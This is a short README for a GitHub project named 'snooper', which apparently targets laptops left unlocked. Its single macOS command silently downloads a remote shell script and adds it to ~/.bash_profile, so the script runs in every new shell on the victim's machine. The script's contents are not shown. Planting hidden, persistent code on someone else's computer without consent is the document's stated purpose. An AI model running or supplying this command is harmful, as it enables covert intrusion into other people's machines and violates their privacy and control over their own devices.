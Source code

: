 # snooper :hamster:
> You will regret leaving your laptop unlocked (unattended) 

### Planting snooper
---
#### MacOS
```
curl https://raw.githubusercontent.com/live-wire/snooper/master/snoop.sh --output ~/.snoop.sh --silent && echo ". ~/.snoop.sh" >> ~/.bash_profile
```
